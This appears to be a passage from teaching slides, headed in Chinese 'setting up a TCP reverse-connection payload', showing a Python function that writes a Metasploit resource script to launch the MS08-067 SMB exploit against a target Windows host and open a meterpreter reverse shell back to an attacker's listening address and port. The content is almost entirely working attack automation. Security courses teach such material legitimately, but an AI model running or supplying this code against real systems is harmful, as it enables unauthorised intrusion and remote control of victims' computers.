

设置TCP反弹连接的Payload
def confickerExploit(configFile, tgtHost, lhost, lport):
	configFile.write('use exploit/windows/smb/ms08_067_netapi\n')
	configFile.write('set RHOST ' + str(tgtHost) + '\n')
	configFile.write('set PAYLOAD windows/meterpreter/reverse_tcp\n')
	configFile.write('set LPORT ' + str(lport) + '\n')
	configFile.write('set LHOST ' + lhost + '\n')
	configFile.write('exploit -j -z\n')